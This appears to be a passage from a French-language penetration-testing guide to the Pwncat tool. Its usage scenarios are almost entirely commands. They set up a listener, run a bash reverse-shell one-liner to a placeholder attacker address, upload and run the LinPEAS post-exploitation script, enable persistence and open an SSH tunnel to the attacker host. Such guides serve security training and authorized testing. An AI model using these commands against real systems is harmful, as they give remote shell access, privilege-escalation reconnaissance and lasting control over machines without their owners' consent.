 ***

### 📋 Scénarios d’Utilisation

***

#### Exemple 1 : Reverse Shell avec Pwncat

1.  **Configurer Pwncat en écoute sur un port** :

    ```bash
    pwncat -lp 4444
    ```
2.  **Établir la connexion depuis la cible** :

    ```bash
    bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'
    ```
3.  **Obtenir un Shell Interactif sur la cible** :

    ```bash
    run shell.interactive
    ```

***

#### Exemple 2 : Uploader et Exécuter un Script de Post-Exploitation

1.  **Uploader un script LinPEAS** :

    ```bash
    run shell.upload src="/path/to/linpeas.sh" dest="/tmp/linpeas.sh"
    ```
2.  **Exécuter le script** :

    ```bash
    run shell.interactive
    bash /tmp/linpeas.sh
    ```

***

#### Exemple 3 : Persistance et Tunnels

1.  **Configurer une session persistante** :

    ```bash
    pwncat --persist
    ```
2.  **Mettre en place un tunnel SSH pour la communication** :

    ```bash
    run network.ssh_tunnel remote_host=attacker_ip remote_port=22 local_port=8080
    ```
